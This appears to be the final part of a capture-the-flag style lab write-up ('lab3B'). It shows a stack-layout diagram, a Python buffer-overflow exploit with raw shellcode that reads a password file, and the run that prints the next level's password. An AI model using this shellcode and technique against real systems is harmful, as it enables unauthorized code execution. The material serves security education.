 ```
+------------------+
|    shellcode     | <-- 0xbffff640 + 124
+------------------+
|      ??????      | <-- 0xbffff640 + 128
+------------------+
|      ??????      | <-- 0xbffff640 + 132
+------------------+
|      ??????      | <-- 0xbffff640 + 136
+------------------+
|      ??????      | <-- 0xbffff640 + 140
+------------------+
|      ??????      | <-- 0xbffff640 + 144
+------------------+
|      ??????      | <-- 0xbffff640 + 148
+------------------+
|      ??????      | <-- 0xbffff640 + 152
+------------------+
| \xbf\xff\xf6\x40 | <-- 0xbffff640 + 156
+------------------+
```

Our final exploit looks like the following (remember to take into account endianness):

```python
import sys

shellcode = 'j\x01_jsh.pashb3A/he/lah/homj\x05X\x89\xe31\xc9\xcd\x80\x89\xc5\x89\xc3jlX\x89\xe1\xcd\x80\x83\xc4\x14\x8b4$1\xc0\xb0\xbb\x89\xfb\x89\xe9\x99\xcd\x80'

LEN_BEG = 128
END_SLED = '\x90'*28
RET_ADDR = '\x40\xf6\xff\xbf'

NOP_SLED = '\x90'*(LEN_BEG - len(shellcode)) 
PAYLOAD = NOP_SLED + shellcode + END_SLED + RET_ADDR

sys.stdout.write(PAYLOAD)
```

When we run it, we're able to get the password printed to stdout:

```sh
$ python lab3B.py | ./lab3B
just give me some shellcode, k
wh0_n33ds_5h3ll3_wh3n_U_h4z_s4nd
```

And we get our password for Lab 3A:

```
wh0_n33ds_5h3ll3_wh3n_U_h4z_s4nd
```
